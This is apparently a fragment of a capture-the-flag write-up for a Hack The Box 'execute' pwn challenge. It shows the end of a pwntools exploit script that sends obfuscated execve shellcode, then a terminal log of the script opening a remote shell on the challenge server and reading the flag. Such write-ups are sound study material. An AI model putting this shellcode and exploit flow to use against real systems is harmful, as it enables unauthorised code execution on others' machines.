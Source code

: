```python
    ''', arch='amd64')
print(f"Check shellcode: {shellcode}")
# for byte in shellcode:
#     if byte in blacklist:
#         print(f'BAD BYTE --> 0x{byte:02x}')
#         print(f'ASCII --> {chr(byte)}')

sl(shellcode)
p.interactive()

```

```bash
➜  pwn_execute ./exploit.py REMOTE
[+] Opening connection to 94.237.63.109 on port 34542: Done
Check shellcode: b'H\\xbf\\xd0\\x9d\\x96\\x91\\xd0\\x8c\\x97\\xffH\\x83\\xf7\\xffWH\\x89\\xe7PH\\x89\\xc6H\\x89\\xc2j:X\\x04\\x01\\x0f\\x05'
[*] Switching to interactive mode
Hey, just because I am hungry doesn't mean I'll execute everything
$ ls
execute
flag.txt
$ cat flag.txt
HTB{wr1t1ng_sh3llc0d3_1s_s0_c00l}$
```
